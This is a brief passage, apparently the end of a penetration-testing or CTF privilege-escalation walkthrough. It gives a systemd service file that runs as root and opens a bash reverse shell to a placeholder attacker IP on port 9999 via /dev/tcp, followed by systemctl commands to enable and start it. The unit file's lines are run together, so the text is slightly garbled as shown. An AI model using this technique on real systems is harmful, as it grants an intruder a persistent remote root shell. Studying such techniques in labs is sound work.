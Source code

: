 ```
[Service]Type=simpleUser=rootExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<kali-ip-address>/9999 0>&1'[Install]WantedBy=multi-user.target
```

And we could run the service file using the following commands:

```
/bin/systemctl enable /var/tmp/root.service/bin/systemctl start root
```

That's all. Happy Hacking :)